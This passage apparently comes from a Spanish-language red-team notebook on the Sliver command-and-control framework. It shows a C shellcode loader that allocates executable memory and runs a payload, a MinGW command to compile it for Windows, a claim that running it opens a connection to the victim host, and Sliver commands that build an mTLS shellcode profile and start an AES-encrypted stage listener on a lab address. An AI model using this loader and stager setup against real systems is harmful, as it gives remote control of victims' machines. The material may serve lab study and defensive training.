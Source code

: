 ```c
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```
{% endcode %}

Para posteriormente compilarlo para que funcione en windows con MinGW:

&#x20;`x86_64-w64-mingw32-gcc -o shellexec shellexec.c`



Y al ejecutar el programa compilado obtenemos una conexión (no encriptada) con el host víctima:&#x20;

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



### Encripted Stager

```bash
## Generate key and IV ##
head -c 8 /dev/urandom | xxd -p
################################

# Create a profile
profiles new --mtls 192.168.244.129 --format shellcode --skip-symbols --arch amd64 <profile-name>

# Start the listener for the shellcode
stage-listener --url http://192.168.244.129:80 --profile win641 --aes-encrypt-key <aes-key> --aes-encrypt-iv <aes-iv>

# And for the session
mtls

##
sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 3    http   tcp        80   
 4    mtls   tcp        8888 
 
```
